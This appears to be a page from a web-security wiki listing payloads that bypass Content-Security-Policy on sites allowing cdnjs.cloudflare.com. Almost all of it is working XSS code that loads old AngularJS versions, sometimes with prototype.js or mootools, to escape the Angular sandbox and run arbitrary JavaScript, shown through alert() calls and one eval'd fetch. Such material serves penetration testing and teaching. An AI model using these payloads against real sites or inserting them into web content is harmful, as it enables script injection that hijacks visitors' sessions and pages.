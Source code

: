 ### Third Party Endpoints + ('unsafe-eval')

{% hint style="warning" %}
For some of the following payload **`unsafe-eval` is not even needed**.
{% endhint %}

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
```

Load a vulnerable version of angular and execute arbitrary JS:

```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```

#### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

{% hint style="info" %}
The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.
{% endhint %}

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```